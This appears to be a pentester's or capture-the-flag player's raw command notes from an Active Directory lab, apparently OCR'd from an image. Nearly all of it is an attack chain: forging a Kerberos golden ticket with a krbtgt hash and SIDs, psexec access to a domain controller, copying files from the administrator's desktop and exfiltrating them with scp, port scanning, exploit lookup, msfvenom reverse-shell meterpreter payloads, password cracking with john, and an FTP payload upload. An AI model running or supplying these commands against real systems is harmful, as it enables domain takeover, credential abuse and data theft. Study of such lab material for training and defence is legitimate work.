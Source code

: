 ```
kerberos::golden /user:freya /domain:zero.arc.corp /sid:S-1-5-21-3128073206-3686985830-824703377  /krbtgt:4f79191a1ceafadd15de32fb617ce29c /sids:S-1-5-21-1970956415-843115013-4046186837-519 /ptt

dir 
\\
dcarc\c$

psexec.exe -accepteula 
\\
dcarc
 cmd

dir 
\\
dcarc\C$\Users\Administrator\Desktop

copy 
\\
dcarc\C$\Users\Administrator\Desktop\old_kinetic_stuff.cab
 .\ 

copy 
\\
dcarc\C$\Users\Administrator\Desktop\New_Employee_Welcome_Letter.pdf
 .\

scp freya@femmefatale:C:/Users/freya/Documents/old_kinetic_stuff.cab /opt/kinetic/old_kinetic_stuff.cab

scp freya@femmefatale:C:/Users/freya/Documents/New_Employee_Welcome_Letter.pdf /opt/kinetic/welcome.pdf

## DevSuper to Moondust

nmap -sS -A -n -p1-60000 devsuper

python3 smbclient.py kinetic/cyn@devsuper

Google port 1978 exploit..open in edb and search for exploit - 50972

searchsploit 50972

msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx LPORT=4333 -f exe > ms_4333.exe

python3 smbclient.py kinetic/cyn@devsuper

python3 smbclient.py pris@devsuper

john dcc.txt 

Get-MpComputerStatus

netstat -ano

reg query hklm\Software\Microsoft\Windows\CurrentVersion\Policies\System

msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx LPORT=4331 -f exe > ms_4331.exe

ftp

binary

put m4446-76.exe m4446-76.exe
```